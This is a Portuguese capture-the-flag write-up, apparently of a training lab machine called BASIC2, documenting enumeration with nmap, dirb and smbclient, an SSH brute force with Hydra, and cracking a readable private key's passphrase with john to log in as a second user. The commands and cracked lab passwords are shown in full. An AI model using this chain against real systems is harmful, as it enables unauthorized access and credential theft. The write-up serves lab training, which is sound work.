 ### Primeiramente rodei um NMAP para identificar portas e serviços:

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m58s, deviation: 2h53m13s, median: -2s
| nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   BASIC2<00>           Flags: <unique><active>
|   BASIC2<03>           Flags: <unique><active>
|   BASIC2<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-11-06T15:02:57-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-06T20:02:57
|_  start_date: N/A



### O dirb identificou o diretório (development) que contém os arquivos dev.txt e j.txt

dirb http://10.10.66.31/
DIRECTORY: http://10.10.66.31/development/  

DEV.TXT
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J


J.TXT
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K



### Enumerado os SMB e identificado um diretório anonymous.

smbclient -L \\10.10.66.31 -N

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available



### Efetuado a conexão via smbclient e localizado um arquivo com mais informações.
### Identificamos um usuário chamado (kay).

smbclient //10.10.66.31/Anonymous -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 14:31:20 2018
  ..                                  D        0  Thu Apr 19 14:13:06 2018
  staff.txt                           N      173  Thu Apr 19 14:29:55 2018

                14318640 blocks of size 1024. 11093308 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0,2 KiloBytes/sec) (average 0,2 KiloBytes/sec)

at staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay



### Com a ferramenta enum4linux, identificamos duas contas de usuário, chamados (jan e kay).



### Efetuado brute-force com o Hydra no SSH do usuário (jan) e conseguimos a senha (armando)

hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.66.31

[22][ssh] host: 10.10.66.31   login: jan   password: armando



### Acessado o alvo via SSH e identificado que dentro do diretório /home/kay, tem um arquivo não acessível.

Last login: Mon Apr 23 15:55:45 2018 from 192.168.56.102
jan@basic2:~$ ls
jan@basic2:~$ cd /home/kay
jan@basic2:/home/kay$ ls
pass.bak
jan@basic2:/home/kay$ cat pass.back
cat: pass.back: No such file or directory
jan@basic2:/home/kay$ 
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ 



### Identificado que os arquivos id_rsa e id_rsa.pub estão acessíveis, ou seja, vulneráveis.
### Fiz uma cópia dos arquivos.

jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo



### Efetuado a quebra da Hash do arquivo (id_rsa) para autentição com a conta (kay) e identificado a senha (beeswax).

ls | grep id_rsa
id_rsa
id_rsa.pub

chmod 600 id_rsa*

ls -lh | grep id_rsa
-rw------- 1 root  root  3,3K nov  6 17:39 id_rsa
-rw------- 1 root  root   726 nov  6 17:39 id_rsa.pub

./ssh2john.py id_rsa > key

cat key
id_rsa:$sshng$1$16$6ABA7DE35CDB65070B92C1F760E2FE75$2352$22835bfc9d2ad8f779e84676de801a2712ef86e499d5cad1af838d19402729c471837fbdbe7eb172e8e9cd40ee52d959a3d772204241e305194ee7813ec99be3ced17455644ce550ad51edcb52b668bcb62e46b60a77e3cfc2e5bfe14c69db0d5d1be3c3f1d18867173d8f01ee7b00d5e88f62b3d91c81f740e14862548f318bfbf510bae62e9fae40d2bf15f36dd7d702400dfb74f9154e3d00454a049b599cb4c4070df59b18efd252d702a21a5f941f79731a70840e51608701396955798d946e01686edc557b350263e279f971eee37846e07d3594b8... (continua)

john key --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
1g 0:00:00:09 DONE (2020-11-06 17:44) 0.1111g/s 1593Kp/s 1593Kc/s 1593KC/sa6_123..*7¡Vamos!
Session completed



### Conectamos ao SSH do alvo e capturamos a flag final.

ssh -i id_rsa kay@10.10.66.31

kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$

